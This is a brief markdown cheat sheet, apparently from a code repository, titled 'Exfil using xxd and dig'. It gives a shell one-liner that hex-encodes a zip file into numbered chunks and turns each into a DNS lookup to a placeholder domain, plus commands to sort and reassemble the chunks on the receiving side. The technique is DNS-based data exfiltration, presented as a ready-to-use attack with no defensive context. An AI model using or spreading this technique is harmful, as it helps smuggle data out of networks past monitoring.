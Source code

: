 
### Exfil using xxd and dig

xxd -p -c 8 4digits.hex.zip |  nl -s"." -nrz -w5 | while read h; do echo dig $h.<domain>; done

### Re-assemble packets

xxd -r -p 4digits.hex

### sort packets
  
sort -h
